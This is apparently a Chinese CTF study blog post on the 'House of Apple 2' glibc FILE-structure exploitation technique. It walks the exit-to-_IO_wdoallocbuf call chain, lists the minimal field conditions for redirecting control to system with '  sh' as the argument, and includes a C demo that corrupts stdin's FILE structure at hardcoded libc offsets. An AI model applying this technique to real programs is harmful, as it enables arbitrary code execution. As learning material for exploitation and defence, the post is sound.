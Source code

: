 ```yaml
---
title: houseofapple2
date: 2024-8-19
tags: house系列
categories: ctf
---
```

# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers
![exit_call->run_exit_handlers](exit_call__run_exit_handlers.png)
这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup
![__run_exit_handlers_call_IO_cleanup](__run_exit_handlers_call_IO_cleanup.png)
这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp
![_IO_cleanup->_IO_flush_all_lockp](_IO_cleanup_call_IO_flush_all_lockp.png)
这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW
![_IO_flush_all_lockp->_IO_OVERFLOW](_IO_flush_all_lockp_call_IO_OVERFLOW.png)

```    
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf
![_IO_OVERFLOW->_IO_wdoallocbuf](_IO_OVERFLOW_call_IO_wdoallocbuf.png)
在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`

![macro_define](_flags_macro_define.png)
根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败
![validate_vtable](validate_vtable.png)
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格
![_IO_FILE_plus & _wide_data structure](_IO_FILE_plus_structure.png)
